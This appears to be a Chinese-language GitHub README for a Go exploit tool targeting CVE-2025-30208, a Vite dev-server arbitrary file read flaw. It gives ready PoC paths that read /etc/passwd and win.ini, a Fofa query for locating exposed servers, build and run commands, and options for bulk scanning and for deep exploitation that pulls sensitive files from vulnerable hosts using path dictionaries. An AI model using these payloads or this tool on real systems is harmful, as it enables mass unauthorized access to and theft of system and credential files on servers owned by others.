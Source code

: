 # CVE-2025-30208
针对CVE-2025-30208的简单漏洞利用
## 漏洞介绍
CVE-2025-30208：Vite开发服务器任意文件读取漏洞，漏洞覆盖面大，且利用简单不受限制。

### 漏洞POC：

>Windows: /@fs/C://Windows/win.ini?import&raw??
> 
> Linux: /@fs/etc/passwd?import&raw??

### Fofa测绘语法：
> body="/@vite/client"

## 脚本使用介绍
### 编译说明
进入到项目根目录

先同步一下依赖
> go mod tidy

然后编译项目
>  go build -o CVE_2025_30208 -ldflags="-s -w" -trimpath .

` ./CVE_2025_3020`即可运行该脚本。

当然你也可以直接在项目根目录下运行该项目:
> go run . 

### 配置
脚本支持联动fofa搜索资产然后进行批量检测。

要想使用fofa，要确保app.ini文件和编译后的二进制文件在同一目录，并且需要修改app.ini文件，其中的fofakey字段填上自己的fofakey，num是自己估摸要检测的大概资产数量。

如果你有针对该漏洞更好的fofa测绘语法，可以自行修改fofaQuery字段。

### 命令行参数介绍
> Usage of ./CVE_2025_30208:

| 参数                   |                                        描述                                        |
| ---------------------- |:--------------------------------------------------------------------------------:|
| -fofa                  |                        指定该参数后，会联动fofa测绘资产，对得到的目标资产进行批量检测                         |
| -u    \|    -url       |                                 指定单个url目标，对其进行检测                                 |
| -f    \|     -filename |                               指定一个文件名，批量检测其中的url地址                               |
| -e                     | 指定该参数后，会对检测存在漏洞的资产进行深度利用，读取各种可能存在的敏感文件并保存在本地。(请谨慎使用该功能，最好是对单个目标检测，也就是使用-u时加上该参数) |

> 说明：
> 
> 1. 批量检测一个文件中的所有目标URL，确保文件中每行一个URL即可，URL可以是包含http的完整URL，也可以是一个域名或者ip，比如：
   ````text
     http://example1.com 
     example2.com
     127.0.0.1
   ```` 
> 2. 当指定-fofa和-f参数进行检测后，会自动将存在漏洞的资产保存到当前文件下，文件名格式为"当下时间戳.csv"。
> 
> 3. 同时支持对linux和windows平台进行利用，利用的字典分别为linux_sensitive_path.txt和windows_sensitive_path.txt，如果有更多敏感路径，可以自己在相应的字典中进行添加。